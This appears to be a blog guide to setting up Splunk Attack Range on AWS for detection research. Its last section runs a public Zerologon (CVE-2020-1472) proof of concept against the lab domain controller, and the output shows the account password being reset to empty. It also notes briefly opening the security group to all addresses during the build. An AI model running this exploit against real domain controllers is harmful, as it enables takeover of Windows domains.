

A quick guide to get [Splunk Attack Range](https://github.com/splunk/attack_range) running on AWS. If you're trying to run this locally, I would suggest having a look at this post [Splunk Attack Range in a virtualized Ubuntu Guest VM](https://medium.com/@julian.wieg/splunk-attack-range-in-a-virtualized-ubuntu-guest-vm-guide-c6587f43c15). 

It's a tool that allows you to create vulnerable instrumented local or cloud environments to simulate attacks against and collect the data into Splunk. I came across this Splunk post [Detecting CVE-2020-1472](https://www.splunk.com/en_us/blog/security/detecting-cve-2020-1472-using-splunk-attack-range.html) and was trying to replicate this in my own environment. Even though the Splunk Attack Range documentation has most of the details, I still ran into some issues, so I'm leaving my notes here for my future self and for everyone else in need.



### 1. AWS Server SetUp
Run an EC2 instance with the Ubuntu 18.04 AMI. The steps below build the range on Ubuntu 18.04 and were specifically tested on that AMI. You will also need an AWS account as a prerequisite.
```
#!/bin/bash
sudo apt-get update
sudo apt-get install -y python3-dev git python-dev unzip python-pip awscli python-virtualenv
wget https://releases.hashicorp.com/terraform/0.12.28/terraform_0.12.28_linux_amd64.zip
unzip terraform_0.12.28_linux_amd64.zip
sudo mv terraform /usr/local/bin/
git clone https://github.com/splunk/attack_range && cd attack_range
cd terraform
terraform init
cd ..
virtualenv -p python3 venv
source venv/bin/activate
pip install -r requirements.txt
```

- Edit attack range configuration: You need to change the attack range password.
```
cp attack_range.conf.template attack_range.conf
vi attack_range.conf
```
- Generate SSH keys using `ssh-keygen` with no passphrase
- Convert Private Key into PEM key
```
openssl rsa -in ~/.ssh/id_rsa -outform pem > id_rsa.pem
```
- Go to AWS, and select your preferred region
- Import public key in your AWS region

Also, either rename this key or update the name in the attack_range.conf file. Update ip_whitelist= `X.X.X.X/32` to your public IP. 

### 2. Attack Range SetUp

You can now build your first range using:
```
python attack_range.py -a build
```
I ran into the error message `[ERROR] connection error: dial tcp 54.89.109.252:22: i/o timeout` when I set ip_whitelist to my public IP in the `attack_range.conf` file. So I temporarily changed it to `0.0.0.0/0` while building the attack range, and once the build completed successfully, I changed it back to my public IP so the security group was only open to my IP. Things went smoothly after that.

**LIST MACHINES**
```python attack_range.py -lm```

**Status EC2 Machines**

| Name                                           | Status  | IP Address |
|------------------------------------------------|---------|------------|
| default-attack-range-kali_machine              | running | x.x.x.x    |
| default-attack-range-windows-domain-controller | running | x.x.x.x    |
| default-attack-range-splunk-server             | running | x.x.x.x    |

### 3. Attack Range Deploy
Install git on Kali
```
sudo apt update
sudo apt install git
```
Install pip3 on Kali
```
sudo apt install python3-pip
```
By this step, you should have successfully deployed the attack range on AWS. It can take up to 15 minutes. 

Splunk can now be accessed in your web browser at:
`http://splunk_instance_public_ip:8000`

Similarly, the other machines can be accessed using their public IPs. While RDPing into the Windows Server or Domain Controller, default domain name will be `ATTACKRANGE.LOCAL` and password will be one you updated in the `attack_range.conf` file.

Next steps are necessary if you are trying to replicate [Detecting CVE-2020-1472](https://www.splunk.com/en_us/blog/security/detecting-cve-2020-1472-using-splunk-attack-range.html) in your environment

[POC CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472) requires the latest impacket from GitHub with added netlogon structures.

### 4. Install Impacket
```
cd /opt/
sudo git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
sudo pip3 install .
```
[If you see error message: "ERROR: ldap3 2.8.1 has requirement pyasn1>=0.4.6, but you'll have pyasn1 0.4.2 which is incompatible."]. Run `sudo pip3 install -U pyasn1-modules` first to resolve the issue.
```
sudo pip3 install -U pyasn1-modules
sudo python3 setup.py install
```

### 5. Simulate an Attack - CVE-2020-1472
Next go to <https://github.com/dirkjanm/CVE-2020-1472>
```
cd /opt/
sudo git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472/
```
Execute the exploit by running:
```
python cve-2020-1472-exploit.py <DC hostname> 10.0.1.14
```
```
kali@kali:/opt/CVE-2020-1472$ python3 cve-2020-1472-exploit.py win-dc-6045942 10.0.1.14
Performing authentication attempts...
===========================================================================================================================
===========================================================================================================================
============================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```
For more information, please read this awesome post from Splunk <https://www.splunk.com/en_us/blog/security/detecting-cve-2020-1472-using-splunk-attack-range.html>

## References
- Splunk Attack Range in a virtualized Ubuntu Guest VM — Guide <https://medium.com/@julian.wieg/splunk-attack-range-in-a-virtualized-ubuntu-guest-vm-guide-c6587f43c15>
- Detecting CVE-2020-1472 (CISA ED 20-04) Using Splunk Attack Range <https://www.splunk.com/en_us/blog/security/detecting-cve-2020-1472-using-splunk-attack-range.html>
- Zerologon <https://www.secura.com/blog/zero-logon>
- CVE-2020-1472 POC <https://github.com/dirkjanm/CVE-2020-1472>